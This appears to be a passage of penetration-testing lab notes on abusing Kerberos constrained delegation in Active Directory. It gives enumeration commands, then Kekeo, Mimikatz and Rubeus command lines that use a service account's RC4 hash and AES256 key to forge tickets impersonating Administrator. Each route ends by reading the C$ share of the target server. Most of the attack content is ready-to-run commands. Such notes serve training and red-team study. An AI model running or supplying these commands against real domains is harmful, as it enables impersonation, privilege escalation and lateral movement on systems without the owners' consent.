 Using PowerView:
```powershell
Get-DomainUser -TrustedToAuth
Get-DomainComputer -TrustedToAuth
```

Using ActiveDirectory module:
```powershell
Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo
```


## Kekeo

**Abusing with Kekeo**

- Either plaintext password or NTLM hash/AES keys is required. We already have access to websvc's hash from dcorp-adminsrv

Using asktgt from Kekeo, we request a TGT (steps 2 & 3 in the diagram):
```powershell
kekeo# tgt::ask /user:websvc /domain:dollarcorp.moneycorp.local /rc4:cc098f204c5887eaa8253e7c2749156f
```

Using s4u from Kekeo, we request a TGS (steps 4 & 5):
```powershell
tgs::s4u /tgt:TGT_websvc@DOLLARCORP.MONEYCORP.LOCAL_krbtgt~dollarcorp.moneycorp.local@DOLLARCORP.MONEYCORP.LOCAL.kirbi /user:Administrator@dollarcorp.moneycorp.local /service:cifs/dcorp-mssql.dollarcorp.moneycorp.LOCAL
```


Using mimikatz, inject the ticket:
```powershell
Invoke-Mimikatz -Command '"kerberos::ptt TGS_Administrator@dollarcorp.moneycorp.local@DOLLARCORP.MONEYCORP.LOCAL_cifs~dcorp-mssql.dollarcorp.moneycorp.LOCAL@DOLLARCORP.MONEYCORP.LOCAL.kirbi"'
	
ls \\dcorp-mssql.dollarcorp.moneycorp.local\c$
```
	

## Rubeus

**Abusing with Rubeus**

We can use the following command (We are requesting a TGT and TGS in a single command):
```powershell
Rubeus.exe s4u /user:websvc /aes256:2d84a12f614ccbf3d716b8339cbbe1a650e5fb352edc8e879470ade07e5412d7 /impersonateuser:Administrator /msdsspn:CIFS/dcorp-mssql.dollarcorp.moneycorp.LOCAL /ptt

ls \\dcorp-mssql.dollarcorp.moneycorp.local\c$
```

> Another interesting issue in Kerberos is that the delegation occurs not only for the specified service but for any service running under the same account. There is no validation for the SPN specified.
